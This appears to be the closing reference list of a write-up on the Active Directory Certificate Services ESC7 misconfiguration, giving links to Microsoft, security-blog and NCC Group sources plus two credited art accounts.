- https://learn.microsoft.com/en-us/defender-for-identity/security-assessment-edit-misconfigured-ca-acl
- https://www.rbtsec.com/blog/active-directory-certificate-attack-esc7/
- https://www.tarlogic.com/blog/ad-cs-esc7-attack/
- https://www.hackingarticles.in/adcs-esc7-vulnerable-certificate-authority-access-control/
- https://www.nccgroup.com/research-blog/defending-your-directory-an-expert-guide-to-fortifying-active-directory-certificate-services-adcs-against-exploitation/

## Art Sources
---
- https://x.com/DDOLBANG11
- https://x.com/koyo2023